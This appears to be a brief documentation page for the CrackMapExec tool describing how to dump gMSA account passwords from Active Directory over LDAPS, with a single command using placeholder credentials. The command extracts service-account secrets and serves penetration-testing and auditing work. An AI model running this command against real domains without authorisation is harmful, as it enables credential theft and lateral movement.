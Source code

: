# Dump GMSA



Using the protocol LDAP you can extract the password of a gMSA account if you have the right.

{% hint style="warning" %}
LDAPS is required to retrieve the password, using the --gmsa LDAPS is automatically selected
{% endhint %}

```
$ crackmapexec ldap <ip> -u <user> -p <pass> --gmsa
```

<figure><img src="../../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

